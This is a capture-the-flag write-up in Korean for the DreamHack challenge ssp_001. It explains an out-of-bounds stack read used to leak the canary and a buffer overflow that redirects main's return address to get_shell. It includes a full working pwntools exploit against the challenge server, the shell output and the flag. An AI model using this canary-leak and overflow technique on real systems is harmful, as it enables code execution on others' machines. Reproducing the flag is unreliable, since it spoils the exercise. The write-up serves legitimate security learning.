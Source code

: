# [DreamHack] ssp_001

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 작동하고 있는 서비스(ssp_001)의 바이너리와 소스코드가 주어집니다.
> 프로그램의 취약점을 찾고 SSP 방어 기법을 우회하여 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [ssp_001.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8546951/ssp_001.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159597718-9e6c7ae8-3c4a-4575-b829-4b8def7dd13a.png)

## Analysis

```c
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
```

```c
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
```

`[P]rint the box` 메뉴는 스택의 데이터 1바이트를 출력해 주는데, `idx`에 대한 검사가 없어서 OOB가 발생한다. 따라서 스택에 있는 임의의 값을 뽑아낼 수 있다. 여기서 canary를 leak할 수 있다.

```c
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
```

`[E]xit` 메뉴를 선택하면 `name`에 원하는 길이만큼 입력을 줄 수 있어 BOF가 발생한다. 앞에서 구한 canary를 이용하여 `main()`의 return address를 `get_shell()`의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/ssp_001')
else:
    r = remote('host3.dreamhack.games', 14017)

sla = r.sendlineafter
sa = r.sendafter

def print_box(idx):
    sla('> ', 'P')
    sla('Element index : ', str(idx))

def Exit(name_len, name):
    sla('> ', 'E')
    sla('Name Size : ', str(name_len))
    sa('Name : ', name)

get_shell = 0x80486b9 # get_shell()

# canary leak
canary = 0
for idx in range(0x80, 0x84):
    print_box(idx)
    canary += (int(r.recvline()[-3:-1], 16) << ((idx - 0x80) * 8))

# overwrite return address of main() with get_shell()
Exit(0x50, b'a' * 0x40 + p32(canary) + b'a' * 8 + p32(get_shell))

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host3.dreamhack.games on port 14017: Done
[*] Switching to interactive mode
$ cat flag
DH{00c609773822372daf2b7ef9adbdb824}
```
